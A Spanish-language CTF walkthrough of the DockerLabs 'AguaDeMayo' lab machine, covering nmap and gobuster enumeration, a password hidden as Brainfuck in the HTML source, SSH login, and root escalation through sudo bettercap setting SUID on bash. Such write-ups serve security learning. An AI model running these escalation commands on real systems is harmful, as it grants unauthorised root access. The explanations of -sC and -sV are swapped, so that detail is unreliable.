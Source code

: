 ## WRITEUP DE LA MÁQUINA AGUADEMAYO DE DOCKERLABS EN ESPAÑOL

Sitio web - https://dockerlabs.es/#/

Hacemos un escaneo de puertos mediante la herramienta nmap, esto casi siempre es el comienzo para la resolución de una máquina o CTF.

```shell
└─$ nmap -sV -sC 172.17.0.2 -oN outputscan.txt
```
"-sC" Muestra la versión del servicio del puerto abierto.
<br><br>
"-sV" Ejecuta scripts propios de Nmap que, entre otras cosas, descubren información detallada sobre los servicios.
<br><br>
"172.18.0.2" Es la dirección IP de la máquina víctima.
<br><br>
"-oN outputscan.txt" Sirve para que te copie el resultado del escaneo en el fichero que tú le indiques (no hay que crearlo antes, lo crea solo). Esto lo hago por si más tarde quiero volver a ver el escaneo pero no quiero tener que hacerlo de nuevo.

---

> En este caso no he utlizado ni "-p-", ni "-n", ni "--min-rate 5000" ya que para algo tan sencillo es más eficaz y rapido ejecutar un comando más corto.

---

```
─$ nmap -sC -sV 172.17.0.2 -oN outputscan.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-07 03:11 EDT
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 172.17.0.2
Host is up (0.00015s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 75:ec:4d:36:12:93:58:82:7b:62:e3:52:91:70:83:70 (ECDSA)
|_  256 8f:d8:0f:2c:4b:3e:2b:d7:3c:a2:83:d3:6d:3f:76:aa (ED25519)
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
|_http-server-header: Apache/2.4.59 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.96 seconds
```

Vemos que el puerto 22 y 80 de los servicios ssh y http respectivamente estan abiertos. Empezaremos por ver que sitio web encontramos con la IP víctima (172.17.0.2):

![pagina web](https://github.com/user-attachments/assets/6c91aa72-6b41-4795-bd48-5be16dc12001)

Vemos que es una página web sencilla, como costrumbre reviso el código fuente con ```Ctrl + u```. Si no eres observador veras un código normal sin nada raro, peo cuando llegas a las últimas lineas vemos que todavía se puedo hacer mucho más scroll hacia abajo, y que vemos...?

```
<!--
++++++++++[>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>++++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>+++++++++++>+>+<<<<<<<<<<<<<<<<<-]>--.>+.>--.>+.>---.>+++.>---.>---.>+++.>---.>+..>-----..>---.>.>+.>+++.>.
-->
```

Es normal no entender que sígnifican tantos caracteres pero si lo buscas en algun navegador o en alguna IA, te diran que es el lenguage de programación conocido como Brainfuck. Metiendo este codigo (Sin el ```<!-- y -->``` del principio y final, eso es solo para hacer un comentario en HTML) un decodificador que he encontrado (https://www.dcode.fr/brainfuck-language) nos muestra que dicho código significa: "bebeaguaqueessano". <br><br>
Tenemos lo que posiblemente sea una contraseña. Vamos ahora a buscar directorios ocultos en esta página web para ver si podemos encontrar algo, algún nombre de usuario, algún archivo o algo. Lo haremos mediante la herramienta Gobuster.

```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```
El modo dir indica que Gobuster realizará una enumeración de directorios y archivos.
<br><br>
"-u" Especifica la URL del objetivo que Gobuster escaneará. En este caso, el objetivo es http://172.17.0.2/.
<br><br>
"-w" Especifica la lista de palabras (wordlist) que Gobuster usará para la fuerza bruta. La lista de palabras contiene nombres de directorios y archivos comunes que Gobuster intentará encontrar en el servidor web. Aquí se está utilizando una lista de palabras proporcionada por DirBuster, llamada directory-list-2.3-medium.txt.
<br><br>
El resultado:

```
└─$ gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 309] [--> http://172.17.0.2/images/]
/server-status        (Status: 403) [Size: 275]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

Tenemos un directorio oculto en la página llamado "images", lo ponemos en el navegador y vemos:

![Foto directorio images](https://github.com/user-attachments/assets/658bcb1b-7249-42ba-901d-ee6a24359f79)

Probe a descargar los datos y buscar información en los metadatos pero nada, es mucho más simple. Teniendo el nombre de la foto, "agua_ssh.jpg" me dice que el usuario al que debo hacer ssh es "agua" y su contraseña debería ser "bebeaguaqueessano".

```
ssh agua@172.17.0.2
```

Hacemos un `Sudo -l` para escalar privilegios, vemos que podemos ejecutar el binario bettercap. Lo ejecutamos mediante `sudo /usr/bin/bettercap` y nos sale:

```
agua@fb7a55388ca1:~$ sudo /usr/bin/bettercap 
bettercap v2.32.0 (built for linux amd64 with go1.19.8) [type 'help' for a list of commands]

172.17.0.0/16 > 172.17.0.2  » [08:16:10] [sys.log] [war] exec: "ip": executable file not found in $PATH
172.17.0.0/16 > 172.17.0.2  »  
```

Si escribimos help nos sale una lista de comandos y cosas que podemos ejecutar, vemos que para ejecutar comandos por la shell hay que poner un ! delante del comando:

![bettercap](https://github.com/user-attachments/assets/7bcff637-0ac9-40de-9d86-17274705f825)

Le vamos a dar al binario bash el permiso SUID (activar el bit SUID) y así poder ejecutar bash con los permisos de root sin serlo. Para ello escribimos ```chmod u+s /usr/bin/bash```;
<br><br>
"chmod" -> (change mode) es el comando para cambiar permisos.
<br>
"u" -> Cace referencia a "user", significa que cambiaremos permisos a user.
<br>
"+" -> Con el más conseguimos agregar los permisos que indiquemos.
<br>
"s" -> Hace referencia al permiso SUID (Set User ID), activa dicho bit.
<br>
"/usr/bin/bash" -> Esta es la ruta a la que vamos a sumar los permisos.
<br><br>
Salimos al usuario de agua con ```exit``` y escribimos ```bash -p``` (Usar bash -p te proporciona una shell de root, pero sin arriesgarte a heredar permisos SUID de otros binarios o de la shell en la que estabas trabajando.)

```
agua@fb7a55388ca1:~$ bash -p
bash-5.2# whoami
root          
```

Somos root, muchas gracias por seguir este writeup, nos vemos en la próxima!! 😊
